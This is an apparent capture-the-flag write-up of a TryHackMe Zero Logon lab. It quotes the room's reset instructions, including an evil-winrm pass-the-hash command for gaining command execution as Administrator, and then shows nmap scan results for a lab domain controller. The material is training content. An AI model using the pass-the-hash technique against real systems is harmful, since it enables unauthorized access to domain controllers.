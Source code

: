 **Time to Play -**

Now that you've learned about Zero Logon, it's time to put your new found skills to the test and exploit this vulnerable Domain Controller!

**Ctrl+Z -**

After you get done, if you want to play around some more, instead of terminating the machine, you can simply issue the following command to reset the machine back to it's original state:

```ps1
powershell.exe -c 'Reset-ComputerMachinePassword'
```

If you're confused on how to issue the command, you can simply Pass The Local Admin Hash with Evil-WinRM to gain command execution. You can do so with the following command:

```
evil-winrm -u Administrator -H <Local Admin Hash> -i <Machine IP>
```

```
(impacketEnv) kali@kali:~/CTFs/tryhackme/Zero Logon$ nmap -sV -sC 10.10.162.183
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-30 15:22 CET
Nmap scan report for 10.10.162.183
Host is up (0.040s latency).
Not shown: 987 closed ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Holo.Live
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-10-30 14:22:17Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hololive.local0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
|   Target_Name: HOLOLIVE
|   NetBIOS_Domain_Name: HOLOLIVE
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: hololive.local
|   DNS_Computer_Name: DC01.hololive.local
|   Product_Version: 10.0.17763
|_  System_Time: 2020-10-30T14:24:34+00:00
| ssl-cert: Subject: commonName=DC01.hololive.local
| Not valid before: 2020-09-19T17:58:40
|_Not valid after:  2021-03-21T17:58:40
|_ssl-date: 2020-10-30T14:24:49+00:00; +1s from scanner time.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=10/30%Time=5F9C219D%P=x86_64-pc-linux-gnu%r(DNS
SF:VersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version
SF:\x04bind\0\0\x10\0\x03");
```